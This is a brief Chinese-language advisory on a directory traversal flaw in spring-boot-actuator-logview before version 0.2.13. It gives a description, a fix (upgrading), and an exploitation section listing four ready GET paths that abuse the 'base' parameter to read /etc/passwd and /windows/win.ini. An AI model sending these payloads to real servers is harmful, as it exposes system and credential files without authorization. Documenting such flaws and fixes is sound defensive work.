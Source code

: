 ### 一 漏洞描述
Actuator-logview是Spring Boot中的类似插件的库，此库的维护已经没有很久没有更新，而Actuator-logview中存在一个简单的日志文件查看器的功能，其端点路径为/log/view，这个端点是由Maven包提供。  

在 0.2.13 版本之前的 spring-boot-actuator-logview 中存在目录遍历漏洞。  
该库的本质是通过 admin（spring boot 执行器）HTTP 端点公开日志文件目录。  
要查看的文件名和基本文件夹（相对于日志文件夹根）都可以通过请求参数指定。  
虽然检查了文件名参数以防止目录遍历攻击（因此`filename=../somefile` 将不起作用），但没有充分检查基本文件夹参数，因此`filename=somefile&base=../` 可以访问日志记录基目录之外的文件）。  
该漏洞已在 0.2.13 版中修补。

### 二 漏洞利用
```
GET path:
  - "{{BaseURL}}/manage/log/view?filename=/windows/win.ini&base=../../../../../../../../../../" # Windows
  - "{{BaseURL}}/log/view?filename=/windows/win.ini&base=../../../../../../../../../../" # windows
  - "{{BaseURL}}/manage/log/view?filename=/etc/passwd&base=../../../../../../../../../../" # linux
  - "{{BaseURL}}/log/view?filename=/etc/passwd&base=../../../../../../../../../../" # linux
  ```

### 三 漏洞修复
更新至 0.2.13 

> 参考链接
> https://cloud.tencent.com/developer/article/1893082
> https://blog.csdn.net/ML_Team/article/details/121032049

